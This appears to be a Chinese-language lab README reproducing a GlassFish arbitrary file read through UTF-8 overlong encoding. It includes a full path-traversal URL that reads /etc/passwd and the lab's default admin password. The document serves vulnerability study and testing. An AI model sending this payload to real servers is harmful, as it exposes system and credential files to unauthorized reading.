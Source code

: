 # GlassFish 任意文件读取漏洞

## 原理

参考链接：

- <https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904>
- <https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html>

GlassFish在解码URL时，没有考虑UTF-8 Overlong Encoding攻击，导致将`%c0%ae`解析为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

## 漏洞复现

编译、运行测试环境

```
docker compose up -d
```

环境运行后，访问`http://your-ip:8080`和`http://your-ip:4848`即可查看web页面。其中，8080端口是网站内容，4848端口是GlassFish管理中心。

访问`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`，发现已成功读取`/etc/passwd`内容：

![](1.png)

## 额外说明

本环境超级管理员密码在`docker-compose.yml`中设置，默认为`vulhub_default_password`，在4848端口利用该密码可以登录管理员账户。
